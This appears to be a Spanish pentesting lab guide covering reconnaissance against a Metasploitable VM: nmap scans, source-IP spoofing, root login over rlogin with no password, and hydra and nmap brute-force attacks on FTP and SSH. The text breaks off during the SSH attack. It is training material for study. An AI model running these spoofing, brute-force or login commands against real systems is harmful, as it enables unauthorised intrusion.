

# 01 Reconocimiento de servicios y acceso

## Mapa conceptual

El siguiente mapa conceptual resume el proceso de reconocimiento y acceso que se desarrolla en este documento: desde el descubrimiento de hosts y el escaneo de puertos con `nmap`, pasando por las técnicas de evasión de firewalls y los scripts NSE, hasta la fase de acceso mediante fuerza bruta, explotación de servicios vulnerables y el uso de Metasploit Framework.

> **Nota:** Los diagramas `mindmap` de Mermaid no se renderizan en la vista previa de GitHub. Para verlos correctamente utiliza un editor compatible como VS Code (con la extensión *Markdown Preview Mermaid Support*), Obsidian o el editor en vivo de [mermaid.live](https://mermaid.live).



---

## Glosario

| Término | Definición |
|---------|------------|
| **Nmap** | *Network Mapper*. Herramienta de código abierto para descubrir hosts, escanear puertos y detectar servicios, versiones y sistemas operativos en una red. |
| **arp-scan** | Herramienta que descubre hosts activos en la red local enviando peticiones ARP. Muy fiable porque ARP no suele poder filtrarse. |
| **Escaneo SYN (`-sS`)** | Sondeo sigiloso que envía un SYN y aborta la conexión con un RST antes de completar el *handshake*. Modo por defecto de Nmap. |
| **Escaneo Connect (`-sT`)** | Escaneo que completa el *handshake* TCP de tres pasos; más fiable sin privilegios, pero más lento y detectable. |
| **Escaneo UDP (`-sU`)** | Sondeo de puertos UDP; más lento y con más falsos positivos por la ausencia de conexión. |
| **Estado de puerto** | Clasificación que asigna Nmap a un puerto: *abierto* (hay servicio escuchando), *cerrado* (accesible sin servicio) o *filtrado* (un firewall bloquea las sondas). |
| **`-sV`** | Opción de detección de versión: identifica el servicio concreto y su versión en los puertos abiertos. |
| **`-O`** | Opción de detección del sistema operativo del host objetivo. |
| **NSE** | *Nmap Scripting Engine*. Motor que ejecuta scripts (escritos en **Lua**) para ampliar Nmap: enumeración, fuerza bruta, detección de vulnerabilidades, etc. |
| **Hydra** | Herramienta de fuerza bruta que prueba combinaciones de usuario/contraseña contra servicios de red (SSH, FTP, SMB, HTTP, MySQL…). |
| **rlogin** | Servicio de acceso remoto obsoleto y sin cifrado (puerto 513). En Metasploitable permite acceso como `root` sin contraseña. |
| **bind shell** | Puerta trasera (*backdoor*) que deja un puerto a la escucha ofreciendo una shell; en Metasploitable, el puerto 1524 da una shell de `root`. |
| **Spoofing** | Falsificación del origen de la comunicación: de IP (`-S`), de MAC (`--spoof-mac`) o de puerto de origen (`--source-port`). |
| **Decoy (`-D`)** | Señuelo: mezcla el escaneo real con paquetes falsificados desde otras IPs para ocultar el origen verdadero. |
| **Fuzzing** | Técnica que envía masivamente entradas de un diccionario contra un objetivo (rutas, parámetros, subdominios) para descubrir recursos o comportamientos no visibles. |
| **Gobuster** | Herramienta de fuzzing web escrita en Go, muy rápida. Modos `dir`, `fuzz`, `dns` y `vhost` para descubrir directorios, subdominios y hosts virtuales. |
| **Wfuzz** | Herramienta de fuzzing web escrita en Python, muy personalizable. Usa las palabras clave `FUZZ`/`FUZ2Z` y potentes filtros de salida. |
| **ffuf** | *Fuzz Faster U Fool*. Fuzzer web en Go que une la velocidad de gobuster con la flexibilidad de wfuzz (palabra clave `FUZZ`, filtros y *matchers*). El fuzzer de referencia actual. |
| **Google Dorking** | Uso de operadores de búsqueda avanzada (`site:`, `inurl:`, `filetype:`…) para localizar información sensible indexada por los buscadores. Técnica de OSINT pasivo. |
| **TTL** | *Time To Live*. Número de saltos que un paquete puede atravesar antes de descartarse; su valor por defecto (64 Linux, 128 Windows) ayuda a deducir el SO del objetivo. |
| **Metasploit Framework (MSF)** | Plataforma modular de pruebas de penetración escrita en Ruby para identificar, explotar y validar vulnerabilidades. |
| **msfconsole** | Consola interactiva y principal interfaz del Metasploit Framework. |
| **Módulo auxiliar** | Módulo de MSF para tareas de apoyo (escaneo, enumeración, fuerza bruta) que no explota directamente una vulnerabilidad. |
| **Exploit** | Módulo o código que aprovecha una vulnerabilidad concreta para comprometer un sistema. |
| **Payload** | Código que se ejecuta en el objetivo tras una explotación exitosa (por ejemplo, una reverse shell o Meterpreter). |
| **Meterpreter** | Payload avanzado de Metasploit que ofrece una sesión interactiva y en memoria con múltiples capacidades de post-explotación. |
| **RHOST / LHOST** | En MSF, la IP del objetivo remoto (`RHOST`) y la IP local del atacante que recibe la conexión (`LHOST`). |
| **CVE** | *Common Vulnerabilities and Exposures*. Identificador estándar y único de una vulnerabilidad conocida públicamente. |
| **tcpdump** | Herramienta de línea de comandos para capturar tráfico de red y guardarlo en formato pcap. |
| **Wireshark** | Analizador gráfico de tráfico de red que permite inspeccionar en detalle los paquetes capturados. |

---

## Índice

- [Mapa conceptual](#mapa-conceptual)
- [Glosario](#glosario)

1. [nmap](#nmap)
   - [Instalación](#instalación)
   - [Preparación de la máquina Kali](#preparación-de-la-máquina-kali)
   - [Escenario de laboratorio](#escenario-de-laboratorio)
2. [Parte I. Reconocimiento/Escaneo de vulnerabilidades desde Kali](#parte-i-reconocimientoescaneo-de-vulnerabilidades-desde-kali)
   - [Ejercicio 1 — Recopilación de información](#ejercicio-1--recopilación-de-información)
   - [Ejercicio 2 — Búsqueda de vulnerabilidades (CVE)](#ejercicio-2--búsqueda-de-vulnerabilidades-cve)
   - [Ejercicio 3 — Spoofing de IP y acceso](#ejercicio-3--spoofing-de-ip-y-acceso)
   - [Ejercicio 4 — Medidas de mitigación](#ejercicio-4--medidas-de-mitigación)
3. [Reconocimiento (OSINT) y reconocimiento web](#reconocimiento-osint-y-reconocimiento-web)
   - [Validación de objetivos y alcance (Scope) en HackerOne](#validación-de-objetivos-y-alcance-scope-en-hackerone)
   - [Descubrimiento de correos electrónicos](#descubrimiento-de-correos-electrónicos)
   - [Reconocimiento de imágenes](#reconocimiento-de-imágenes)
   - [Enumeración de subdominios](#enumeración-de-subdominios)
   - [Gobuster — descubrimiento por fuerza bruta](#gobuster--descubrimiento-por-fuerza-bruta)
   - [Credenciales y brechas de seguridad](#credenciales-y-brechas-de-seguridad)
   - [Identificación de tecnologías web](#identificación-de-tecnologías-web)
   - [Fuzzing y enumeración de recursos web](#fuzzing-y-enumeración-de-recursos-web)
   - [ffuf](#ffuf)
   - [Google Dorks](#google-dorks)
   - [Identificación y verificación externa de la versión del sistema operativo (TTL)](#identificación-y-verificación-externa-de-la-versión-del-sistema-operativo-ttl)
   - [Burp Suite en la fase de reconocimiento](#burp-suite-en-la-fase-de-reconocimiento)
4. [Metasploit Framework](#metasploit-framework)
   - [Parte II. Uso de Metasploit Framework (MSF)](#parte-ii-uso-de-metasploit-framework-msf)
   - [Comandos básicos de Metasploit Framework](#comandos-básicos-de-metasploit-framework)
   - [Ejercicio 1 — Enumeración de usuarios por SMTP](#ejercicio-1--enumeración-de-usuarios-por-smtp)
   - [Ejercicio 2 — Fuerza bruta contra PostgreSQL](#ejercicio-2--fuerza-bruta-contra-postgresql)
   - [Ejercicio 3 — Explotación de PostgreSQL y flag2](#ejercicio-3--explotación-de-postgresql-y-flag2)
5. [ANEXO de nmap](#anexo-de-nmap)
   - [Descubrimiento de red con arp-scan](#descubrimiento-de-red-con-arp-scan)
   - [Estados de un puerto](#estados-de-un-puerto)
   - [Sondeo de puertos con nmap](#sondeo-de-puertos-con-nmap)
   - [Especificación de puertos con nmap](#especificación-de-puertos-con-nmap)
   - [Plantillas de temporizado](#plantillas-de-temporizado)
   - [El escaneo SYN en detalle](#el-escaneo-syn-en-detalle)
   - [Evasión de firewalls e IDS](#evasión-de-firewalls-e-ids)
   - [Captura de tráfico con tcpdump y Wireshark](#captura-de-tráfico-con-tcpdump-y-wireshark)
   - [Uso de scripts NSE](#uso-de-scripts-nse)
   - [Opciones adicionales útiles](#opciones-adicionales-útiles)

---

## nmap

Nmap (*Network Mapper*) es una herramienta de escaneo de red gratuita y de código abierto que se utiliza en pruebas de penetración (*pentesting*) para explorar y auditar redes y sistemas informáticos. Permite identificar qué dispositivos están conectados a la red, descubrir los puertos abiertos, detectar servicios, versiones y sistemas operativos presentes en los equipos. Es ampliamente usada tanto por administradores de sistemas como por profesionales de la seguridad informática.

Con Nmap, los profesionales de seguridad pueden identificar los hosts conectados a una red, los servicios que se están ejecutando en ellos y las vulnerabilidades que podrían ser explotadas por un atacante. La herramienta es capaz de detectar una amplia gama de dispositivos, incluyendo enrutadores, servidores web, impresoras, cámaras IP, sistemas operativos y otros dispositivos conectados a una red.

Asimismo, esta herramienta posee una variedad de funciones y características avanzadas que permiten adaptarla a necesidades específicas. Estas incluyen técnicas de escaneo agresivas, capacidades de *scripting* personalizadas mediante el motor NSE (*Nmap Scripting Engine*), y un conjunto de herramientas auxiliares que pueden utilizarse para obtener información adicional sobre los hosts objetivo.

### Instalación

Para su instalación podemos proceder de la siguiente forma, aunque en este documento vamos a hacer uso de una máquina Kali por lo que el servicio ya viene instalado.

En caso de usar una máquina Debian o Ubuntu podemos realizar lo siguiente.

```bash
usuario@debian:~$ sudo apt update && sudo apt install nmap -y && apt list --installed nmap
...
Listando... Hecho
nmap/oldstable,now 7.93+dfsg1-1 amd64 [instalado]
```

### Preparación de la máquina Kali

En una máquina Linux inicialmente tendremos que realizar una serie de acciones que implicarán poner el teclado en castellano, darle una contraseña al usuario `root` y, como vamos a realizar conexiones por SSH, habilitar el servicio. Si queremos hacer uso de una máquina Kali Linux procedemos del siguiente modo.

```bash
setxkbmap es
systemctl status ssh
sudo passwd root
su - root
systemctl enable ssh
systemctl restart ssh
systemctl status ssh
```

| Comando | Descripción |
|---------|-------------|
| `setxkbmap es` | Establece la distribución de teclado en castellano. |
| `systemctl status ssh` | Muestra el estado del servicio SSH. |
| `sudo passwd root` | Asigna una contraseña al usuario `root`. |
| `su - root` | Cambia a la sesión del usuario `root`. |
| `systemctl enable ssh` | Habilita SSH para que arranque con el sistema. |
| `systemctl restart ssh` | Reinicia el servicio SSH para aplicar cambios. |

### Escenario de laboratorio

Para esta práctica vamos a hacer uso de una máquina Kali y otra máquina Metasploitable configuradas dentro de una red NAT con CIDR `198.0.2.0/24`.

Podemos ver que nuestra máquina Kali es la `198.0.2.4/24`.

```bash
┌──(kali㉿kali)-[~]
└─$ ip -c a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:96:3c:bc brd ff:ff:ff:ff:ff:ff
    inet 198.0.2.4/24 brd 198.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 456sec preferred_lft 456sec
    inet6 fe80::a00:27ff:fe96:3cbc/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```

> **Nota:** El comando `ip -c a` (abreviatura de `ip -color address`) muestra las interfaces de red y sus direcciones IP con resaltado de color. Aquí confirmamos que la interfaz `eth0` de Kali tiene la IP `198.0.2.4`.

---

## Parte I. Reconocimiento/Escaneo de vulnerabilidades desde Kali

### Ejercicio 1 — Recopilación de información

Recopile información sobre la máquina objetivo (Metasploitable) utilizando `nmap`.

Para comenzar a hacer uso de la herramienta ejecutamos el comando `nmap` indicando todo el rango de direcciones IP a escanear. Con el parámetro `-sS` hacemos un escaneo sigiloso y con `-sV` detectamos la versión del servicio.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sS -sV 198.0.2.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-13 09:13 CEST
Nmap scan report for 198.0.2.1
Host is up (0.00052s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
53/tcp open  domain  Unbound
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)

Nmap scan report for 198.0.2.2
Host is up (0.0018s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MySQL 8.0.30
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 198.0.2.3
Host is up (0.00034s latency).
All 1000 scanned ports on 198.0.2.3 are in ignored states.
Not shown: 1000 filtered tcp ports (proto-unreach)
MAC Address: 08:00:27:69:89:1B (Oracle VirtualBox virtual NIC)

Nmap scan report for 198.0.2.6
Host is up (0.010s latency).
Not shown: 978 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  shell       Netkit rshd
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Bash shell (**BACKDOOR**; root shell)
2049/tcp open  nfs         2-4 (RPC #100003)
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:D8:16:4E (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, ui11, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 198.0.2.4
Host is up (0.0000090s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.9p1 Debian 3 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (5 hosts up) scanned in 71.80 seconds
```

| Parámetro | Descripción |
|-----------|-------------|
| `-sS` | Sondeo TCP SYN (sigiloso). Envía solo el paquete SYN sin completar la conexión TCP. Es rápido y poco detectable. |
| `-sV` | Detección de versión. Interroga a los puertos abiertos para identificar el servicio y su versión concreta. |
| `198.0.2.0/24` | Rango objetivo en notación CIDR (los 256 hosts de la subred). |

> **Nota:** El sondeo SYN (`-sS`) es el utilizado por omisión y el más popular. Puede realizarse rápidamente, sondeando miles de puertos por segundo, y es relativamente sigiloso porque no llega a completar las conexiones TCP. Los comandos `nmap -sSV 198.0.2.2` y `nmap -sS -sV 198.0.2.2` son equivalentes.

Podemos ver que se localizan los equipos de nuestra red. Realmente como tal tenemos únicamente la máquina Kali con el servicio SSH que hemos habilitado antes y la máquina objetivo Metasploitable.

> **Importante:** Según el propio escaneo, la máquina Kali es la `198.0.2.4` (`OpenSSH 9.9p1`) y la máquina objetivo Metasploitable es la `198.0.2.6`. El host `198.0.2.2` corresponde a un sistema Windows (`msrpc`, `MySQL 8.0.30`), no a la Kali.

Para nuestra práctica el host de interés es la `198.0.2.6` y podemos ver que tiene los siguientes servicios. Vamos a repasar brevemente qué es cada servicio detectado y luego verlos en forma de tabla para facilitar el análisis.

#### Descripción de los principales servicios

- **FTP (21/tcp, vsftpd 2.3.4):** Permite transferir archivos, pero históricamente puede ser vulnerable y transmite datos sin cifrar.
- **SSH (22/tcp, OpenSSH):** Acceso remoto cifrado; una versión antigua podría ser vulnerable.
- **Telnet (23/tcp):** Acceso remoto sin cifrado; muy inseguro.
- **SMTP (25/tcp, Postfix):** Envía correos electrónicos; si no está bien protegido puede usarse para spam.
- **DNS (53/tcp, BIND):** Resolución de nombres de dominio en la red.
- **HTTP (80/tcp, Apache):** Servidor web, accesible desde navegadores.
- **RPC (111/tcp, rpcbind):** Ayuda a localizar servicios RPC; puede ser vector de ataques si está expuesto.
- **NetBIOS/SMB (139/445/tcp, Samba):** Compartición de archivos e impresoras, usado en redes Windows/Linux.
- **RSH/Rexec/Rlogin (512/513/514):** Métodos de acceso remoto obsoletos y **muy inseguros** (sin cifrado).
- **Java RMI (1099/tcp):** Permite invocaciones remotas de métodos Java.
- **Bindshell (1524/tcp):** Backdoor; permite acceder al sistema de forma directa (muy peligroso).
- **NFS (2049/tcp):** Compartición de archivos en red para sistemas Unix/Linux.
- **MySQL (3306/tcp):** Base de datos relacional.
- **PostgreSQL (5432/tcp):** Base de datos relacional.
- **VNC (5900/tcp):** Escritorio remoto gráfico.
- **X11 (6000/tcp):** Interfaz gráfica remota de sistemas Unix.
- **IRC (6667/tcp):** Chat en tiempo real.
- **AJP13 (8009/tcp):** Conexión backend para servidores Java (Tomcat).
- **HTTP alternativo (8180/tcp, Tomcat):** Otro servidor web/app (Tomcat).

#### Tabla resumen de servicios y versiones

| Puerto   | Servicio    | Versión/Programa              |
| -------- | ----------- | ----------------------------- |
| 21/tcp   | ftp         | vsftpd 2.3.4                  |
| 22/tcp   | ssh         | OpenSSH 4.7p1 Debian 8ubuntu1 |
| 23/tcp   | telnet      | Linux telnetd                 |
| 25/tcp   | smtp        | Postfix smtpd                 |
| 53/tcp   | domain      | ISC BIND 9.4.2                |
| 80/tcp   | http        | Apache httpd 2.2.8 (Ubuntu)   |
| 111/tcp  | rpcbind     | 2 (RPC #100000)               |
| 139/tcp  | netbios-ssn | Samba smbd 3.X - 4.X          |
| 445/tcp  | netbios-ssn | Samba smbd 3.X - 4.X          |
| 512/tcp  | exec        | netkit-rsh rexecd             |
| 513/tcp  | login       | OpenBSD/Solaris rlogind       |
| 514/tcp  | shell       | Netkit rshd                   |
| 1099/tcp | java-rmi    | GNU Classpath grmiregistry    |
| 1524/tcp | bindshell   | Bash shell (**BACKDOOR**)     |
| 2049/tcp | nfs         | 2-4 (RPC #100003)             |
| 3306/tcp | mysql       | MySQL 5.0.51a-3ubuntu5        |
| 5432/tcp | postgresql  | PostgreSQL DB 8.3.0 - 8.3.7   |
| 5900/tcp | vnc         | VNC (protocol 3.3)            |
| 6000/tcp | X11         | (access denied)               |
| 6667/tcp | irc         | UnrealIRCd                    |
| 8009/tcp | ajp13       | Apache Jserv Protocol 1.3     |
| 8180/tcp | http        | Apache Tomcat/Coyote JSP 1.1  |

Además, nos puede interesar ver el sistema operativo de un equipo en concreto de la red con `nmap -O <ip>`.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -O 198.0.2.6
...
OS details: Linux 2.6.32
...
```

> **Nota:** Como alternativa a `nmap` tenemos el comando `arp-scan` para ver las IPs de las máquinas de nuestra red local (ver el [ANEXO](#descubrimiento-de-red-con-arp-scan) para más detalle).

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -I eth0 --localnet
[sudo] password for kali:
Interface: eth0, type: EN10MB, MAC: 08:00:27:96:3c:bc, IPv4: 198.0.2.4
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
198.0.2.1       52:54:00:12:35:00       (Unknown: locally administered)
198.0.2.2       52:54:00:12:35:00       (Unknown: locally administered)
198.0.2.3       08:00:27:69:89:1b       (Unknown)
198.0.2.6       08:00:27:d8:16:4e       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.977 seconds (129.49 hosts/sec). 4 responded
```

### Ejercicio 2 — Búsqueda de vulnerabilidades (CVE)

Busque en las bases de datos de vulnerabilidades conocidas (preferentemente [CVE Details](https://www.cvedetails.com/)) las que correspondan al sistema operativo de la _Metasploitable_. Escoja una de las más críticas (puntaje de 10) y explique brevemente el tipo de ataque que propició, así como su impacto en la confidencialidad, integridad y disponibilidad.

Para el caso de la máquina Metasploitable (`198.0.2.6`) con los servicios anteriormente detectados, una de las vulnerabilidades críticas más importantes es la relacionada con el protocolo SSH [CVE-2002-1645](https://www.cvedetails.com/cve/CVE-2002-1645/).

La vulnerabilidad CVE-2002-1645 afecta a clientes SSH para Workstations (versiones 3.1 a 3.2.0) y está relacionada con un desbordamiento de búfer en la función de captura de URLs (*URL catcher*). Esto permite que un atacante remoto ejecute código arbitrario, generalmente enviando una URL excesivamente larga a través del cliente vulnerable. Impacto en seguridad:

- **Confidencialidad:** el atacante puede robar información o capturar credenciales usando el código ejecutado.
- **Integridad:** puede modificar sistemas, archivos y registros, "secuestrando" la sesión o introduciendo software malicioso.
- **Disponibilidad:** podría paralizar el cliente SSH o realizar ataques de denegación de servicio en la máquina de la víctima.

> **Nota:** Conviene tener en cuenta que CVE-2002-1645 es una vulnerabilidad del *cliente* SSH Secure Shell (lado del atacante/usuario), no del servicio `sshd` que expone la Metasploitable. Para ejercicios de explotación del servidor suelen ser más representativos los CVE asociados directamente a los servicios detectados (p. ej. `vsftpd 2.3.4` o `UnrealIRCd`). Revisa este punto según el criterio de tu práctica.

### Ejercicio 3 — Spoofing de IP y acceso

En este rol de atacantes pueden ir más allá e intentar falsificar la dirección desde donde están realizando el escaneo a la red. Investiga cómo puede hacerse con `nmap` e inténtalo. Compruebe los ficheros de log con `tail /var/log/syslog` en la máquina escaneada y verifique si ha quedado constancia de las conexiones realizadas por `nmap` con la dirección IP falsa. Comente sus hallazgos.

Añadimos una IP a nuestra interfaz `eth0` para que parezca un ataque desde el equipo `198.0.2.10/24`.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo ip addr add 198.0.2.10/24 dev eth0

┌──(kali㉿kali)-[~]
└─$ ip -c a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:96:3c:bc brd ff:ff:ff:ff:ff:ff
    inet 198.0.2.4/24 brd 198.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 360sec preferred_lft 360sec
    inet 198.0.2.10/24 scope global secondary eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe96:3cbc/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```

La idea es realizar un *spoofing* de la IP con Nmap haciendo uso de los siguientes parámetros:

| Parámetro | Descripción |
|-----------|-------------|
| `-sS` | Realiza un escaneo SYN (también llamado "escaneo sigiloso"). En lugar de completar la conexión TCP, solo envía el primer paquete SYN. |
| `-S 198.0.2.10` | Suplanta la dirección IP de origen. Hace que los paquetes parezcan provenir de la IP `198.0.2.10` en lugar de la IP real del atacante. |
| `-e eth0` | Especifica que el escaneo debe realizarse a través de la interfaz de red `eth0`. |
| `-Pn 198.0.2.6` | `198.0.2.6` es la IP objetivo. `-Pn` indica que se debe omitir la detección previa de hosts activos y asumir que el objetivo está encendido. |

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sS -S 198.0.2.10 -e eth0 -Pn 198.0.2.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-13 09:41 CEST
Nmap scan report for 198.0.2.6
Host is up (0.022s latency).
Not shown: 978 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:D8:16:4E (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 7.50 seconds
```

> **Advertencia:** Al suplantar la IP de origen con `-S`, las respuestas del objetivo se envían a la IP falsificada, no a la del atacante. El escaneo solo devolverá resultados fiables si el atacante puede observar el tráfico de esa IP (por ejemplo, porque también la tiene asignada en su interfaz, como en este caso).

#### Ataque al puerto 513

Tenemos diferentes formas de ganar acceso a la máquina objetivo. La más simple es mediante el puerto 513, que está directamente abierto y permite conectarnos a la máquina con el usuario `root` sin contraseña mediante `rlogin`:

```bash
┌──(root㉿kali)-[~]
└─# rlogin -l root 198.0.2.6
Last login: Tue Oct 14 00:31:57 EDT 2025 from 198.0.2.4 on pts/1
Linux ui11 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@ui11:~# cat /var/log/syslog

Oct 14 00:31:56 ui11 in.rlogind[4793]: connect from 198.0.2.4 (198.0.2.4)
```

> **Importante:** Hemos obtenido acceso como `root` en `198.0.2.6` sin contraseña gracias al servicio `rlogind` (puerto 513). En el log queda registrada una conexión desde `198.0.2.4`, porque hemos ejecutado `rlogin -l root 198.0.2.6` desde esa IP. Si quisiéramos que se almacenase otra IP, tendríamos que modificar la interfaz de red de origen de la conexión.

Para tratar de acceder a la máquina objetivo por otras vías, vamos a realizar diferentes ataques de fuerza bruta sobre los puertos abiertos, tanto con `nmap` como con la herramienta `hydra`.

`hydra` es una herramienta de código abierto usada en pruebas de penetración para realizar ataques de fuerza bruta y descubrir contraseñas en distintos servicios de red, como SSH, FTP, SMB, HTTP o MySQL, entre otros. Funciona probando sistemáticamente combinaciones de nombres de usuario y contraseñas, generalmente usando listas de palabras (diccionarios), hasta encontrar las credenciales válidas. Se destaca por su rapidez y su capacidad de realizar múltiples intentos en paralelo, facilitando así la evaluación de la seguridad de sistemas mediante la simulación de ataques reales.

##### Ataque a FTP (puerto 21)

Vamos a realizar un ataque al puerto 21, correspondiente al servicio FTP para el intercambio de archivos.

```bash
┌──(root㉿kali)-[~]
└─# hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt 198.0.2.6 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-14 07:56:18
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 129099591 login tries (l:9/p:14344399), ~8068725 tries per task
[DATA] attacking ftp://198.0.2.6:21/
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 129099463 to do in 16809:50h, 16 active
...
```

| Parámetro | Descripción |
|-----------|-------------|
| `-L usuarios.txt` | Lista de posibles nombres de usuario (una por línea). |
| `-P /usr/share/wordlists/rockyou.txt` | Diccionario de contraseñas a probar. |
| `198.0.2.6` | Dirección IP del objetivo. |
| `ftp` | Servicio/módulo a atacar. |

##### Ataque a SSH (puerto 22)

Lanzamos un ataque al puerto 22 para procurar encontrar un par de claves usuario/contraseña que permitan el acceso, esta vez usando el script `ssh-brute` de nmap.

```bash
┌──(root㉿kali)-[~]
└─# nmap -sS -p 22 --script ssh-brute --script-args userdb=usuarios.txt,passdb=/usr/share/wordlists/rockyou.txt 198.0.2.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-14 07:48 CEST
NSE: [ssh-brute] Trying username/password pair: root:root
NSE: [ssh-brute] Trying username/password pair: admin:admin
NSE: [ssh-brute] Trying username/password pair: user:user
NSE: [ssh-brute] Trying username/password pair: test:test
NSE: [ssh-brute] Trying username/password pair: guest:guest
NSE: [ssh-brute] Trying username/password pair: mysql:mysql
NSE: [ssh-brute] Trying username/password pair: administrator:administrator
NSE: [ssh-brute] Trying username/password pair: operator:operator
NSE: [ssh-brute] Trying username/password pair: backup:backup
